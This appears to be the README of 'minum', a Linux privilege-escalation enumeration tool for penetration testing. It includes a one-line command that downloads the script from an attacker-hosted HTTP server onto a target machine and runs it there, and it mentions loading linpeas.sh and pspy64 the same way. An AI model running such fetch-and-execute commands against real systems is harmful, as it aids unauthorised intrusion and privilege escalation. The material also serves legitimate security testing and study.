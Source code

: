 # minum : Minimal Enumeration Tool

This enumeration for privilege escalation tool, unlike many others, is built towards the idea of finding the top most relevant privilege escalation vectors for its user.  
The idea is to prevent throwing a lot of things at the user and let him begin searching for a needle in a haystack.  

Instead, it will ask you for your preferable routes throughout its running and will present to the user only the interesting stuff.
Letting you spend more time on exploiting and less time on reading tons of text all over the place.  
At the end it will also load for you linpeas.sh automatically in case you want an indepth lookout.  

Have fun, and use my tool for good purposes! Educational purposes ONLY !!

P.S

Have some suggestions? Leave an issue and we will be able to look at it and make modifications.

Cheers!

## Install
On your local machine:
```
git clone https://github.com/nirzaaa/minum.git
cd minum
python -m http.server
```
p.s.  
Pay attention to play `linpeas.sh` and `pspy64` in that folder so we will be able to download it for you automatically :)

On the remote machine:
```
wget <my_ip>:<my_port>/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh
```

## Usage

You can download the script to the remote machine and run it for you automatically by using:  
`wget <my_ip>:<my_port>/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh`

## Suggestions
Have any suggestions? Something is missing? (:grimacing:) You can leave us an issue and we will look into it :smiley:

## Support us
![68747470733a2f2f63646e2e6275796d6561636f666665652e636f6d2f627574746f6e732f64656661756c742d6f72616e67652e706e67]([https://user-images.githubusercontent.com/117816100/206116650-916f11c0-bacb-4578-b8f7-7048ff363d00.png](https://www.buymeacoffee.com/nirza))

